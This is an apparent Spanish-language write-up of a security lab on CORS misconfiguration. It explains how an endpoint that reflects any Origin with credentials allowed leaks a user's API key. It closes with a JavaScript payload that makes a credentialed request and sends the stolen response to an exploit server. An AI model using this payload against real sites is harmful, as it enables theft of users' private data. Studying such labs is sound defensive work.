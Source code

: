 El laboratorio plantea un escenario en el que un endpoint sensible (/accountDetails) devuelve información privada —como la clave API del usuario— y permite solicitudes de origen cruzado reflejando el valor de la cabecera Origin. Esto significa que el servidor confía ciegamente en cualquier origen que le envíe una solicitud, siempre y cuando también devuelva la cabecera Access-Control-Allow-Credentials: true, lo que permite el envío de cookies junto con la petición.

La clase demuestra cómo el atacante puede aprovechar esta configuración desde un servidor malicioso (el exploit server) para realizar una petición XMLHttpRequest al dominio objetivo usando ‘**withCredentials: true**‘. Al no haber un filtrado adecuado en el backend, el servidor refleja el origen del atacante como válido y responde con los datos sensibles. El código JavaScript malicioso lee la respuesta y redirige al atacante a una URL de registro con la clave extraída como parámetro.

Con esta técnica, el atacante puede robar información del administrador sin necesidad de inyecciones en el servidor víctima, simplemente manipulando la política de intercambio de recursos entre dominios que ha sido mal configurada

Ya con la comprobación inicial realizada, nos centramos ahora en desplegar el exploit en el servidor de ataque. El objetivo es automatizar el robo de la clave de API mediante una petición ‘**XMLHttpRequest**‘ con credenciales activadas (**withCredentials**). Si el origen malicioso es reflejado en la respuesta como válido, y se permite el acceso a la respuesta gracias al encabezado ‘**Access-Control-Allow-Origin**‘, el navegador de la víctima nos dejará leer los datos sensibles y redirigirlos al log del exploit server.

Este enfoque demuestra cómo una validación incorrecta del origen puede dejar expuestos endpoints sensibles incluso cuando se ha intentado limitar el acceso con mecanismos CORS mal implementados.

----

Que es CORS?

En la respuesta de la peticion vemos la siguiente cabecera:

    Access-Control-Allow-Credentials: true

Si enviamos en la peticion una cabecera, es posible ver lo siguiente:

    Origin: test.com

En la respuesta se ve esto:

    Access-Control-Allow-Origin: test.com
    Access-Control-Allow-Credentials: true

Quiere decir que cualquier Origin será valido, ahora podemos cambiar interformacion entre la aplicacion y un servidor atacante, porque nos puede arrastrar cookies de sesion, para ello hacemos lo siguiente:

```javascript
<script>
    var req = new XMLHttpRequest();
    req.onload = function(){
        location = "https://exploit-server/?apikey= " + btoa(req.responseText);
    };
    req.open('GET','https://burpsuite/accountDetails',true);
    req.withCredentials = true; 
    req.send();

</script>


```
    




